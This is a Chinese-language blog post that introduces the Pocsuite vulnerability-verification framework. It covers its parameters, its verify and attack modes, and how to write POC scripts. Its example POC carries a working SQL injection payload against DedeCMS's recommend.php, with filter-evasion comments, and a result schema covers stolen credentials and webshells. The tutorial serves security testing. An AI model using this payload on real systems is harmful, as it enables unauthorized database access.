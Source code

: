 +++
date = "2016-09-08T20:38:45+08:00"
description = ""
draft = false
tags = ["poc", "框架"]
title = "POC框架Pocsuite"
topics = ["Python"]

+++

### 0x00 关于Pocsuite
> Pocsuite 是知道创宇安全研究团队打造的一款基于漏洞与 POC 的远程漏洞验证框架。可以让我们不用考虑过多的细节，只要考虑验证代码就可以，它封装了一些我们常用的东西，比如requests，在我们平常使用requests是要考虑cookie、要考虑header，但是在框架下则不需要有这些考虑，因为这些东西框架都帮你解决了。

### 0x01 简单介绍
* 安装
    * 使用pip install pocsuite即可安装
    {{% fluid_img src="/img/post/pocsuite_install.png" alt="安装pocsuite" %}}
* 常用参数
    * -u 指定一个目标url
    * -f 指定一个存放目标url的文件
    * -r 指定一个存放poc的文件夹
    * --report 导出结果到html文件
    * --cookie 携带cookie
    * --referer 修改referer
    * --user-agent 修改UA
* 模式
    * 执行一个poc有两种模式
        * \-\-verify 漏洞验证模式(只是验证，不能更改服务器的东西)
        * \-\-attack 漏洞利用模式
    * 示例
        * pocsuite -u "http://www.xxxx.com" -r poc_path/poc_name.py --atack
* poc编写
    * 可以新建一个文件夹，命名为mypoc，里面就放你自己写的poc(当然也可以在mypoc里新建文件夹放一类poc，对poc进行分类)
    * 此时示例(对目标进行常见服务的测试，加载一类多个poc脚本)
        * pocsuite -u "http://www.xxxx.com" -r poc_path/server/ --verify

* poc的命名规范
    * 漏洞ID_版本号_漏洞类型(其中不能有大写字母，所有符号要改为"\_"),大致如下：
        * _xxxx_struct2_2016_s2_016_code_execution.py
        * _xxxx_dedecms_20130715_sql_inj.py
* poc的编写流程
    * 导入pocsuite API模块
    * 创建TestPOC类
    * 填写POC信息
    * 编写_berify()方法
    * 编写_attack()方法
    * 注册类

### 0x02 实例
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# 导入pocsuite的必要模块
from pocsuite.net import req # requests模块，和requests用法完全一样
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register

class TestPOC(POCBase):
    """docstring for TestPOC"""
    vulID            = ''      # VUL ID
    version          = ''      # 版本号,默认为1
    author           = ''      # POC 作者的大名
    vulDate          = ''      # 漏洞公开的时间,不知道就写今天
    createDate       = ''      # 编写 POC 的日期
    updateDate       = ''      # POC更新的时间,默认和编写时间一样
    references       = ['']    # 漏洞地址来源,0day 不用写
    name             = ''      # POC 名称
    appPowerLink     = ''      # 漏洞厂商主页地址
    appName          = ''      # 漏洞应用名称
    appVersion       = ''      # 漏洞影响版本
    vulType          = ''      # 漏洞类型,类型参考见 漏洞类型规范表
    desc             = ''' ''' # 漏洞简要描述
    samples          = []      # 测试样例,就是用 POC 测试成功的网站url，选填
    install_requires = []      # POC 第三方模块依赖，请尽量不要使用第三方模块

    def _verify(self, verify=True): # 漏洞测试代码
        result = {}
        target_url = self.url

        # 这里写入漏洞测试代码
        path = "/plus/recommend.php"
        payload = "?action=&aid=1&_FILES[type][tmp_name]=\\%27%20or%20mid=@`\\%27`%20/*!50000union*//*!50000select*/1,2,3,(select md5(512341)),5,6,7,8,9%23@`\\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=4294"
        html = req.get(target_url + path + payload, timeout=10).content
        if '5e8523b1645e6225001b9027cddc1c85' in html:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url + path
            result['VerifyInfo']['Path'] = path
            result['VerifyInfo']['Payload'] = payload
        
        return self.parse_attack(result)

    def _attack(self): # 漏洞利用代码
        # result = {}
        # # 先进行检测是否存在漏洞
        # if not self._verify(verify=False):
        #     return self.parse_attack(result)
        # target_url = self.url

        # # 这里写漏洞利用代码

        # return self.parse_attack(result)
        
        return self._verify() # 如果没漏洞利用代码，可以直接return测试函数

    def parse_attack(self, result): # poc输出函数，可以输出错误和成功信息
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Nothing returned')
        return output

register(TestPOC) #注册类
```

### 0x03 关于poc中result字典的内容
> ```
# result是一个字典，里面存储所有的漏洞信息:
result：{
    'DBInfo': {
        'Username': '管理员用户名',
        'Password'：'管理员密码',
        'Salt': '加密盐值',
        'Uid': '用户ID',
        'Groupid': '用户组ID'
        }
    'ShellInfo': {
        'URL': 'Webshell地址',
        'Content': 'Webshell内容'
        }
    'FileInfo': {
        'Filename': '文件名称',
        'Content': '文件内容'
        }
    'XSSInfo': {
        'URL': '验证URL',
        'Payload': '验证Payload'
        }
    'AdminInfo': {
        'Uid': '管理员ID',
        'Username': '管理员用户名',
        'Password': '管理员密码'
        }
    'Database': {
        'Hostname': '数据库主机名',
        'Username': '数据库用户名' ,
        'Password': '数据库密码',
        'DBname': '数据库名'
        }
    'VerifyInfo': {
        'URL': '验证URL',
        'Postdata': '验证POST数据',
        'Path': '网站绝对路径'
        }
    'SiteAttr': {
        'Process': '服务器进程'
        }
}
```
